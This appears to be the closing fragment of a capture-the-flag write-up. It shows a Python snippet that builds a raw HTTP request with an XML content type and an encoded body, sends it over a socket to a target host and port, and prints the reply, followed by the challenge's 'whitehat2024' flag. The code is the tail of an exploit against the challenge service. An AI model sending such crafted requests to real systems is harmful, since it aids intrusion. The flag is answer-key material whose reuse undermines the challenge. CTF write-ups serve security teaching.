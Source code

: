 ```python
payload += 'Content-Type: application/xml\r\n'
payload += 'Content-Length: ' + str(len(enc_body)) + '\r\n' 
payload += 'Connection: close\r\n\r\n'
payload += enc_body

response = sock(host, port, payload)
if response:
    print("Received data:", response)
else:
    print("No response or error occurred.")
```         
    
### Flag    
whitehat2024{ac637d5e02f48be516ea43a43b3915a446a5d8465cf3867ed2eb4df0b6fae85d63e6bb9efcb56ee0d36771e61dfa344c0bd8}     
          